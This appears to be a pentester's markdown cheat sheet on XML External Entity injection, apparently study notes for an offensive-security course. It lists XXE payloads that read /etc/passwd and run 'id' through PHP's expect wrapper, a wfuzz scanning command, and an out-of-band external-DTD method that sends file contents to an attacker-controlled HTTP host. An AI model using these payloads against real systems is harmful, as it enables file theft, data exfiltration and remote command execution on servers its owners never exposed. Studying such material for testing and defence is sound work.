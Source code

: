 
>[!info]
>This note is still in development.

### Overview
---
An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.

**Reference(s):**
- https://swisskyrepo.github.io/PayloadsAllTheThings/XXE%20Injection/
- https://portal.offsec.com/courses/web-200/books-and-videos/modal/modules/xml-external-entities/xml-external-entities

### Tools
---
- [XXEinjector](https://github.com/enjoiz/XXEinjector)
```shell
# Installation
git clone https://github.com/enjoiz/XXEinjector
cd XXEinjector

# Usage
ruby xxeinjector.rb --host <url> --file <xxe_payload>
```

### Payloads
---
- LFI
```php
<?xml version="1.0" encoding="ISO-8859-1"?>  
<!DOCTYPE foo [ <!ELEMENT foo ANY >  
<!ENTITY **xxe** SYSTEM **"file:///etc/passwd"** >]>  
<creds>  
    <user>**&xxe;**</user>  
    <pass>mypass</pass>  
</creds>
```

- RCE using PHP "expect" module to return current user
```php

<?xml version="1.0" encoding="ISO-8859-1"?>  
<!DOCTYPE foo [ <!ELEMENT foo ANY >  
<!ENTITY **xxe** SYSTEM **"expect://id"** >]>  
<creds>  
    <user>**&xxe;**</user>  
    <pass>mypass</pass>  
</creds>
```

### Scanning
---
```
wfuzz -c -z file,/usr/share/SecLists/Fuzzing/XXE-Fuzzing.txt --hc 404,301 "<URL>/index.php?parameter=FUZZ"

# -c   = output in color
# -z   = type of payload (e.g, file,<filepath>)
# --hc = hide responses containing specified statuses
```

Exploitation:
1. Create "external.dtd"
```
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://[kali-ip]/out?%content;'>" >
```
2. Host with a simple HTTP server
3. Insert file in payload
```
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://<attacker_ip>/external.dtd"> 
%base;
%external;
%exfil;
]>
```

### Discovery
---
![[Pasted image 20231015202411.png]]
- If the above syntax replaces the "lastname" value with "Replace", the site is vulnerable to XXE.

### Exploitation
---
Retrieving files (LFI)
![[Pasted image 20231015202421.png]]

```xml
<!ENTITY <variable_name> SYSTEM "file:///<file>/<path>">
```
